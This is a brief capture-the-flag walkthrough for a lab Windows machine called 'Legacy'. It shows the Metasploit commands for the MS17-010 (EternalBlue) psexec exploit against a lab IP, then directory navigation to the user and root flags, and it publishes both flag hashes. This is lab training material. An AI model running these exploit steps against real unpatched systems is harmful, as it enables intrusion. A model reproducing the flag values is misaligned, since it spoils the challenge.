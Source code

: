 # Legacy: Walkthrough 

## Legacy Nmap Scan

![](Nmap.jpeg)

## Shell
Eternal Blue is used to gain shell. As the nmap shows the Windows machine has a chance 94% of being an Windows XP machine a quick exploitdatebase search of a potential vulnerablity revealed ms17_010_psexec
```
use windows/smb/ms17_010_psexec
set RHOSTS 10.10.10.4
exploit
```


```
>cd Documents and Settings
>cd \john\Desktop
>cat \user.txt
>cd
>cd Administrator 
>ls
>cd Desktop
>ls
>cat root.txt
```


# Flags

| John          | e69af0e4f443de7e36876fda4ec7644f  |
| ------------- | ------------- |
| root          | 993442d258b0e0ec917cae9e695d5713  |
